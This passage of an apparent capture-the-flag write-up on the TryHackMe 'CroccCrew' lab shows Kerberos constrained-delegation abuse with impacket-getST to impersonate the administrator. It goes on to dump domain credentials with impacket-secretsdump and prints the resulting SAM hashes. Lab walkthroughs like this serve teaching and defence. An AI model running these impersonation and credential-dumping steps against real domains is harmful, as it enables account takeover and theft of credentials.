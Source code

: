 Here we have **msds-allowedtodelegateto** but bloodhound didn’t show this info to us and its set to **OAKLEY/DC.COOCTUS.CORP**

Now lets request a Service Ticket.

```bash
impacket-getST -spn 'oakley/DC.COOCTUS.CORP' -impersonate 'administrator' cooctus.corp/'password-reset':'resetpassword'
```

![image.png](/assets/images/CroccCrew_THM/image%2027.png)

Got the .ccache file for the administrator.

Exporting it to our linux kerberos environment variable.

```bash
export KRB5CCNAME=administrator.ccache
klist
```

![image.png](/assets/images/CroccCrew_THM/image%2028.png)

Now lets just do a domain dump using impacket’s secretsdump.py

```bash
impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
```

The dump is as follows:

```text
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xe748a0def7614d3306bd536cdc51bebe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
```